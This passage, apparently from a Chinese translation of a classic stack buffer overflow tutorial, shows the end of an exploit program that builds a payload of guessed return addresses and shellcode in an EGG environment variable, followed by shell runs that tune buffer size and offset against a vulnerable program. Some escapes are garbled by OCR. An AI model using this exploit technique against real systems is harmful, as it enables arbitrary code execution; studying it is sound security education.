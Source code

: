 &nbsp;&nbsp;}

&nbsp;&nbsp;addr = get_sp() - offset;

&nbsp;&nbsp;printf("Using address: 0x%x"n", addr);

&nbsp;&nbsp;ptr = buff;

&nbsp;&nbsp;addr_ptr = (long *) ptr;

&nbsp;&nbsp;for (i = 0; i &lt; bsize; i+=4)

&nbsp; &nbsp; *(addr_ptr++) = addr;

&nbsp;&nbsp;ptr += 4;

&nbsp;&nbsp;for (i = 0; i &lt; strlen(shellcode); i++)

&nbsp; &nbsp; *(ptr++) = shellcode[i];

&nbsp;&nbsp;buff[bsize - 1] = '"0';

&nbsp;&nbsp;memcpy(buff,"EGG=",4);

&nbsp;&nbsp;putenv(buff);

&nbsp;&nbsp;system("/bin/bash");

}

------------------------------------------------------------------------------

&nbsp; &nbsp; 现在我们尝试猜测缓冲区的大小和偏移量:

------------------------------------------------------------------------------
  
[aleph1]$ ./exploit2 500

Using address: 0xbffffdb4
  
[aleph1]$ ./vulnerable $EGG
  
[aleph1]$ exit
  
[aleph1]$ ./exploit2 600

Using address: 0xbffffdb4
  
[aleph1]$ ./vulnerable $EGG

Illegal instruction
  
[aleph1]$ exit
  
[aleph1]$ ./exploit2 600 100

Using address: 0xbffffd4c
  
[aleph1]$ ./vulnerable $EGG

Segmentation fault
  
[aleph1]$ exit
  
[aleph1]$ ./exploit2 600 200
